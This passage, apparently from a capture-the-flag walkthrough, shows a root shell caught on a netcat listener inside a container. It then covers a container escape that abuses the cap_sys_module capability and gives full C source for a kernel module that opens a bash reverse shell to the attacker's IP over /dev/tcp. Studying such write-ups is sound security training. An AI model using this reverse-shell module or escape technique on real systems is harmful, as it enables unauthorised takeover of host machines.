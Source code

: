And on our listener, we get a shell as **root** in another container and can read the user flag at `/root/user.txt`:

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.14.101.76] from (UNKNOWN) [10.10.235.70] 43662
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@d221f7bc7bf8:/finance-app# python3 -c 'import pty;pty.spawn("/bin/bash");'
root@d221f7bc7bf8:/finance-app# export TERM=xterm
root@d221f7bc7bf8:/finance-app# ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

root@d221f7bc7bf8:/finance-app# id
uid=0(root) gid=0(root) groups=0(root)
root@d221f7bc7bf8:/finance-app# wc -c /root/user.txt
38 /root/user.txt
```

## Root Flag

### Container Escape

Once again, we don't find anything useful inside the container; however, checking our capabilities, we can notice that we have the `cap_sys_module` capability set.

```console
root@d221f7bc7bf8:/tmp# capsh --print
Current: cap_chown,cap_dac_override,...,cap_sys_module,...
```
{: .wrap }

The **cap_sys_module** capability allows us to load kernel modules and since the container shares the kernel with the host, we can use this to execute code on the host. First, we create a basic kernel module that runs a reverse shell payload upon initialization:

```c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kmod.h>

MODULE_LICENSE("GPL");

static int shell(void){
	char *argv[] ={"/bin/bash", "-c", "bash -i >& /dev/tcp/10.14.101.76/443 0>&1", NULL};
	static char *env[] = {
		"HOME=/",
		"TERM=linux",
		"PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };
	return call_usermodehelper(argv[0], argv, env, UMH_WAIT_PROC);
}

static int init_mod(void){
	return shell();
}

static void exit_mod(void){
	return;
}

module_init(init_mod);
module_exit(exit_mod);
```